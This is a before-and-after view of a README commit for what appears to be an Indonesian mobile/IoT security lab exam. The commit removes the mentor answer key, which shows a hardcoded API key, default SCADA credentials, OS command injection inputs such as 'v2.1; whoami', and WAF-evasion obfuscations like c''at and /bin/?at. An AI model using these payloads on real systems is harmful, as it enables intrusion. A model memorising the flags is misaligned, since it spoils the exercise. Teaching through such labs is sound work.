

Before and after one commit to Prakopss/Seclab-8-mobile-security-app, a Markdown page: README.md, the part around the change. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Remove mentor guide and solution walkthrough
Removed the mentor guide and solution walkthrough for the mobile app exploitation stages.

````diff
--- a/README.md
+++ b/README.md
@@ -55,53 +55,6 @@ Aplikasi ini dirancang sebagai lingkungan ujian praktikum berbasis simulasi real
 2. Unggah seluruh file proyek (`app.py`, `requirements.txt`, `.replit`, dan folder `templates/`).
 3. Tekan tombol **Run**. Konfigurasi `.replit` akan otomatis menjalankan `python3 app.py` pada port `5000`.
 
----
-
-## 4. Panduan Mentor & Kunci Jawaban (Walkthrough Solusi)
-
-### Tahap 1: Static Analysis Aplikasi Mobile Android (`/`)
-1. Peserta membuka halaman utama **Smart Factory Gateway - PT Industri Otomasi Sejahtera** (`/`).
-2. Peserta mengklik tombol **"Download Teknisi Mobile App (Android Source)"** yang mengarah ke `/download/mobile-app` dan mengunduh file `ios_teknisi_mobile_android_src.zip`.
-3. Setelah diekstrak, terdapat 2 file:
-   * `AndroidManifest.xml`: Memiliki komponen dengan konfigurasi `android:exported="true"`.
-   * `strings.xml`: Menyimpan kredensial *hardcoded* menuju IoT Gateway:
-     ```xml
-     <string name="gateway_api_key">IOS_FACTORY_SECRET_9912</string>
-     ```
-
-### Tahap 2: Autentikasi IoT Gateway (`/gateway-login`)
-1. Peserta membuka halaman `/gateway-login`.
-2. Peserta memasukkan **Gateway API Key** yang ditemukan dari `strings.xml`:
-   * **Gateway API Key:** `IOS_FACTORY_SECRET_9912`
-3. Sistem memvalidasi kunci tersebut dan mengarahkan peserta ke halaman `/scada-panel`.
-
-### Tahap 3: Eksploitasi Default Credentials OT/SCADA (`/scada-panel`)
-1. Saat mengakses `/scada-panel`, peserta dihadapkan pada jendela modal **"SCADA Override Login"**.
-2. Peserta mencoba kredensial klasik perangkat industri (OT Default Credentials):
-   * **Username:** `admin`
-   * **Password:** `password` (atau `admin`)
-3. Dashboard SCADA terbuka dan menampilkan indikator **Suhu Mesin Utama (`78.4 °C`)**, **Tekanan Air Pendingin (`4.85 Bar`)**, serta form **"IoT Sensor Firmware Update"**.
-
-### Tahap 4: Eksploitasi Command Injection pada IoT Firmware Update
-1. Pada form **IoT Sensor Firmware Update**, apabila peserta memasukkan input normal `v2.1`, aplikasi mengembalikan pesan hijau:
-   ```text
-   Firmware v2.1 successfully deployed to sensors.
-   ```
-2. Peserta menguji celah *OS Command Injection* dengan menyisipkan operator pemisah perintah (`;`, `|`, atau `&&`) diikuti perintah sistem (`whoami`, `ls`, atau `cat`), misalnya:
-   * `v2.1; whoami`
-   * `v2.1 | ls`
-   * `v2.1 && cat flag.txt`
-3. Aplikasi menampilkan simulasi konsol terminal beserta Flag kelulusan:
-   ```text
-   root@scada-system:~# FLAG{IOT_SCADA_C0MPR0MISED_SUCCESS}
-   ```
-
-### Tahap 5 (Bonus): Linux Command Obfuscation (WAF Evasion)
-Apabila peserta menguji teknik *WAF Evasion* tanpa menulis kata `"cat"` secara utuh melainkan menggunakan salah satu pola *obfuscation* berikut:
-1. `c''at` (contoh: `v2.1; c''at flag.txt`)
-2. `c\at` (contoh: `v2.1 | c\at flag.txt`)
-3. `c""at` (contoh: `v2.1 && c""at flag.txt`)
-4. `/bin/?at` (contoh: `v2.1; /bin/?at flag.txt`)
 
 Aplikasi akan mengenali payload sebagai serangan *WAF Evasion* yang sukses dan langsung mengembalikan simulasi terminal berisi Flag bonus:
 ```text
````
